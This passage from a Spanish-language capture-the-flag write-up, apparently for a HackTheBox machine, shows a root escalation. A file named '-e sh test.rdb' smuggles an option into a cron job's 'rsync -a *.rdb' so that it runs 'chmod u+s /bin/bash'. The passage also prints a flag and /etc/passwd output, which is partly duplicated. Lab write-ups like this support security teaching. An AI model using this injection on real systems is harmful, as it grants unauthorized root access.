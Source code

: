 ### Abuso de rsync para Escalada

Aprovechamos un error del comando 'rsync -a *.rdb', gracias a ello y que tenemos la capacidad de escritura en '/var/www/html/f187a0ec71ce99642e4f0afbd441a68b', podemos inyectar un archivo .rdb con comandos maliciosos y lograr ejecutar un comando chmod para hacer el binario  '/bin/bash' setuid, dándonos privilegios de root.

    echo 'chmod u+s /bin/bash' > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/test.rdb
    cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/ && touch -- '-e sh test.rdb' && cd /tmp

![](/assets/images/Reddish/setuid-bash.png)

La bandera 'user', se encuentra en '/home/somaro':

    dfc0c6503d1b36fa17b0be628745971f

En la tarea cron anterior 'backup.sh', podemos observar que hace referencia a otra máquina, en el puerto 873:

    rsync rsync://backup:873/src/etc/passwd

Si observamos el archivo que solicita, tiene pinta de ser una montura de la máquina real:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    bash-4.3# cat passwd 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
